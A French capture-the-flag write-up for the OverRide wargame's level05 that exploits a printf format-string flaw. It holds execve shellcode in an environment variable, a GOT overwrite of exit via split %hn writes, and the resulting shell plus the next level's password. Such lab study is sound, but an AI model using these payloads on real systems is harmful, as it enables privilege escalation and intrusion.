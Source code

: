 #### Etape 1 : Décompilation 
```bash
level05@OverRide:~$ ./level05 
dasdas
dasdas
level05@OverRide:~$ ./level05 
AAAAAAA
aaaaaaa
level05@OverRide:~$ ./level05 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaalevel05@OverRide:~$level05@OverRide:~$ ./level05 
1111111112222222
1111111112222222
```

Le binaire prend une chaine de caractere et la convertie en minuscule.

#### Etape 2 : Recherche de faille

On peut voir que le binaire utilise la fonction fgets() pour lire l'input de l'utilisateur. elle limite l'input a 100 caractere.

On voit auusi une fonction printf qui prend directement une variable de l'utilisateur. Qui comme vu dans les exercices précédents peut être une faille de sécurité.

```c
printf((char *)local_78);
```

```bash
Un code tel que printf(foo); indique souvent un bogue, car foo peut contenir un caractère « % ». Si foo vient d'une saisie non sécurisée, il peut contenir %n, ce qui autorise printf() à écrire dans la mémoire, et crée une faille de sécurité.
```



#### Etape 3 : Idée
On decide d'utiliser la faille printf pour écrire dans la mémoire et modifier l'adresse de retour de la fonction exit.

Premierement on recherche l'offset du buffer dans la pile.

```bash
level05@OverRide:~$ echo $(python -c 'print "AAAA" + "%x " * 30' ) > /tmp/testoffset
level05@OverRide:~$ (cat /tmp/testoffset -) |./level05 
aaaa64 f7fcfac0 f7ec3af9 ffffd4ef ffffd4ee 0 ffffffff ffffd574 f7fdb000 61616161 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
```
On peut voir que l'offset est de 10.

On sait donc que l'on pourra reecrire le shellcode a la position 10.

Pour l'exploiter on va stocker un SHELLCODE dans une variable d'environnement et trouver sa position dans la pile.
pour cela on va utiliser un programme qui va afficher l'adresse de la variable SHELLCODE (voir getenv.c)
et stoker le Shellcode suivan dans la variable SHELLCODE.

```bash
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

```bash
evel05@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90" * 500 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
level05@OverRide:~$ gcc -m32 -o /tmp/getenv /tmp/getenv.c
level05@OverRide:~$ cd /tmp
level05@OverRide:/tmp$ ./getenv 
Adresse de SHELLCODE: 0xffffd70b
```
Nous retrouvons l'adresse de notre SHELLCODE dans la pile : ici 0xffffd70b
0xffffd70b en decimal est 4294956811

Ensuite on va chercher l'adresse de la fonction exit dans la pile ainsi que l'adresse du system.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) disass main
Dump of assembler code for function main:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
[...]
---Type <return> to continue, or q <return> to quit---
   0x08048513 <+207>:   call   0x8048370 <exit@plt>
(gdb) x/i 0x8048370
   0x8048370 <exit@plt>:        jmp    *0x80497e0
```
nous avons donc l'adresse de exit : 0x80497e0 et de system : 0xf7e6aed0

Dans l'idee nous voulons ecrire l'exploit suivant :

```bash
'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%4294956811x%10$hn"') > /tmp/testlv
```
mais nous avons un probleme, le nombre de caractere a ecrire est trop grand pour etre ecrit en une seule fois.
Nous allons donc devoir ecrire en deux fois.

```bash
0xffffd70b = 4294956811
ffff = 65535
d70b = 55051
```
Donc en little endian le SHELLCODE sera ecrit en deux fois : 55051 puis 65535
Et nous devons stocker dans l'espace correcte entre les deux ecritures le nombre de caractere ecrits.
donc 65535 - 55051 = 10484
mais vu que nous avons 8 bytes ecris avant le SHELLCODE, nous devons commencer à 55043 puis 10484

```bash
level05@OverRide:~$ echo $(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55043x%10$hn"+ "%10484x%11$hn"') > /tmp/testlv
```

Vu que nous avons diviser notre adresse en deux, nous avions besoin de deux %hn pour ecrire l'adresse complete aux 10 et 11 eme positions.

#### Etape 4 : Execution 

```bash
level05@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90" * 500 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
level05@OverRide:~$ gcc -m32 -o /tmp/getenv /tmp/getenv.c
level05@OverRide:~$ cd /tmp
level05@OverRide:/tmp$ ./getenv 
Adresse de SHELLCODE: 0xffffd70b
level05@OverRide:/tmp$ cd 
level05@OverRide:~$ echo $(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55043x%10$hn"+ "%10484x%11$hn"') > /tmp/testlv
5
level05@OverRide:~$ (cat /tmp/testlv5 -) |./level05 
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```



